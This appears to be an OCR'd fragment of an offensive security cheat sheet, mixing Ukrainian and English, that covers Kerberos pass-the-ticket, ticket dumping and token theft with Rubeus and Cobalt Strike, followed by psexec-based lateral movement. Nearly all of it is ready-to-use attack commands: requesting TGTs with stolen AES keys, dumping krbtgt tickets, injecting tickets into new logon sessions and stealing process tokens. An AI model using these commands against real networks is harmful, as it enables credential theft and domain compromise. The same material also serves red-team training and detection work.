 ## Pass the ticket
## Запросити квиток
execute-assembly /root/Tools/SharpCollection/Seatbelt.exe -group=system
execute-assembly C:\path\Rubeus.exe asktgt /user:<username> /domain:<domain> /aes256:<aes_keys> /nowrap /opsec
## Створити нову сесію входу для використання з новим квитком (щоб не перезаписувати скомпрометований)
make_token <domain>\<username> DummyPass
## Записати квиток на машину атакуючого з сеансу poweshell та завантажити його
[System.IO.File]::WriteAllBytes("C:\Users\Administrator\Desktop\jkingTGT.kirbi", [System.Convert]::FromBase64String("[...ticket...]"))
kerberos_ticket_use C:\Users\Administrator\Desktop\jkingTGT.kirbi

## Pass the ticket з SYSTEM
## Згенерувати новий процес з квитком
execute-assembly C:\path\Rubeus.exe asktgt /user:<USERNAME> /domain:<DOMAIN> /aes256:<AES KEY> /nowrap /opsec /createnetonly:C:\Windows\System32\cmd.exe
## Вкрасти токен з цього процесу
steal_token <pid>

## Extract ticket + Pass the ticket
### List tickets
execute-assembly C:\path\Rubeus.exe triage
### Dump interesting ticket by luid
execute-assembly C:\path\Rubeus.exe dump /service:krbtgt /luid:<luid> /nowrap
### Create new logon session, note luid and processid
execute-assembly C:\path\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe
### Insert ticket in generate logon session
execute-assembly C:\path\Rubeus.exe ptt /luid:0x92a8c /ticket:[...base64-ticket...]
### Нарешті, вкрасти токен з цього нового процесу
steal_token <pid>

# Lateral Movement
## Якщо токен був створений, він буде використаний
jump [method] [target] [listener]
## Методи:
## psexec                    x86   Використовуйте службу для запуску артефакту Service EXE
## psexec64                  x64   Використовуйте службу для запуску артефакту Service EXE
## psexec_psh                x86   Використовуйте службу для запуску однорядкового PowerShell